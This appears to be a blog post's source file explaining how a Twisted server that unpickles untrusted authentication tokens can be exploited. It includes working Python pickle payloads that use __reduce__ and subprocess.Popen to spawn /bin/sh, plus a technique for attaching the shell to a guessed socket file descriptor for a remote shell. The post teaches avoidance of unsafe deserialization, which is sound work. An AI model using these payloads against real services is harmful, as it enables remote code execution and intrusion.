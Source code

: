 ```yaml
---
layout: post
status: publish
published: true
title: Exploiting misuse of Python's "pickle"
author: nelhage
author_login: nelhage
author_email: nelhage@mit.edu
author_url: http://nelhage.com
wordpress_id: 469
wordpress_url: http://blog.nelhage.com/?p=469
date: 2011-03-20 18:38:13.000000000 +01:00
categories:
- Computer Security
tags:
- security
- python
- shell
- twisted
- pickle
---
```

If you program in Python, you're probably familiar with the
[`pickle`][pickle] serialization library, which provides for efficient
binary serialization and loading of Python datatypes. *Hopefully*,
you're also familiar with the warning printed prominently near the
start of `pickle`'s documentation:

> *Warning:* The pickle module is not intended to be secure against
> erroneous or maliciously constructed data. Never unpickle data
> received from an untrusted or unauthenticated source.

Recently, however, I stumbled upon a project that was accepting and
unpacking untrusted pickles over the network, and a poll of some
friends revealed that few of them were aware of just how easy it is to
exploit a service that does this. As such, this blog post will
describe exactly how trivial it is to exploit such a service, using a
simplified version of the code I recently encountered as an
example. Nothing in here is novel, but it's interesting if you haven't
seen it.

The Target
----------

The vulnerable code was a [Twisted][twisted] server that listened over
SSL. The code looked roughly like the following:

<pre lang="python">
class VulnerableProtocol(protocol.Protocol):
  def dataReceived(self, data):

     # Code to actually parse incoming data according to an
     #  internal state machine
     # If we just finished receiving headers, call verifyAuth() to
       check authentication

  def verifyAuth(self, headers):
    try:
      token = cPickle.loads(base64.b64decode(headers['AuthToken']))
      if not check_hmac(token['signature'], token['data'], getSecretKey()):
        raise AuthenticationFailed
      self.secure_data = token['data']
    except:
      raise AuthenticationFailed
<&#47;pre>

So, if we just send a request that looks something like:

    AuthToken: <pickle here>

The server will happily unpickle it.

Executing Code
--------------

So, what can we do with that? Well, `pickle` is supposed to allow us
to represent arbitrary objects. An obvious target is Python's
[`subprocess.Popen`][subprocess] objects -- if we can trick the target
into instantiating one of those, they'll be executing arbitrary
commands for us! To generate such a pickle, however, we can't just
create a `Popen` object and pickle it; For various mostly-obvious
reasons, that won't work. We could read up on the "pickle" format and
construct a stream by hand, but it turns out there is no need to.

`pickle` allows arbitrary objects to declare how they should be
pickled by defining a [`__reduce__`][reduce] method, which should
return either a string or a tuple describing how to reconstruct this
object on unpacking. In the simplest form, that tuple should just
contain

 - A callable (which must be either a class, or satisfy some other,
   odder, constraints), and
 - A tuple of arguments to call that callable on.

`pickle` will pickle each of these pieces separately, and then on
unpickling, will call the callable on the provided arguments to
construct the new object.

And so, we can construct a pickle that, when un-pickled, will execute
`&#47;bin&#47;sh`, as follows:

<pre lang="python">
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('&#47;bin&#47;sh',),))

print base64.b64encode(cPickle.dumps(RunBinSh()))
<&#47;pre>

Getting a Remote Shell
----------------------

At this point, we've basically won. We can run arbitrary shell
commands on the target, and there are any number of ways we could
bootstrap from here up to an interactive shell and whatever else we
might want.

For completeness, I'll explain what I did, since it's a moderately
cute trick. `subprocess.Popen` lets us select which file descriptors
to attach to stdin, stdout, and stderr for the new process by passing
integers for the `stdin` and similarly-named arguments, so we can open
our `&#47;bin&#47;sh` on arbitrarily-numbered fd's.

However, as mentioned above, the target server uses Twisted, and it
serves all requests in the same thread, using an asynchronous
event-driven model. This means we can't necessarily predict which file
descriptor on the server will correspond to our socket, since it
depends on how many other clients are connected.

It also means, however, that every time we connect to the server,
we'll open a new socket inside the same server process. So, let's
guess that the server has fewer than, say, 20 concurrent connections
at the moment. If we connect to the server's socket 20 times, that
will open 20 new file descriptors in the server. Since they'll get
assigned sequentially, one of them will almost certainly be fd
20. Then, we can generate a pickle like so, and send it over:

<pre lang="python">
import cPickle
import subprocess
import base64

class Exploit(object):
  def __reduce__(self):
    fd = 20
    return (subprocess.Popen,
            (('&#47;bin&#47;sh',), # args
             0,            # bufsize
             None,         # executable
             fd, fd, fd    # std{in,out,err}
             ))

print base64.b64encode(cPickle.dumps(Exploit()))
<&#47;pre>

We'll open a `&#47;bin&#47;sh` on fd 20, which should be one of our 20
connections, and if all goes well, we'll see a prompt printed to one
of those. We'll send some junk on that fd until we manage to get the
original server to error out and close the connection, and we'll be
left talking to `&#47;bin&#47;sh` over a socket. Game over.

In Conclusion
-------------

Again, nothing here should be novel, nor would I expect any of these
pieces to take a competent hacker more than few minutes to figure out,
given the problem. But if this blog post teaches someone not to use
`pickle` on untrusted data, then it will be worth it.

[pickle]: http:&#47;&#47;docs.python.org&#47;library&#47;pickle.html
[twisted]: http:&#47;&#47;twistedmatrix.com&#47;
[subprocess]: http:&#47;&#47;docs.python.org&#47;library&#47;subprocess.html
[pep-307]: http:&#47;&#47;www.python.org&#47;dev&#47;peps&#47;pep-0307&#47;
[reduce]: http:&#47;&#47;docs.python.org&#47;library&#47;pickle.html#object.__reduce__
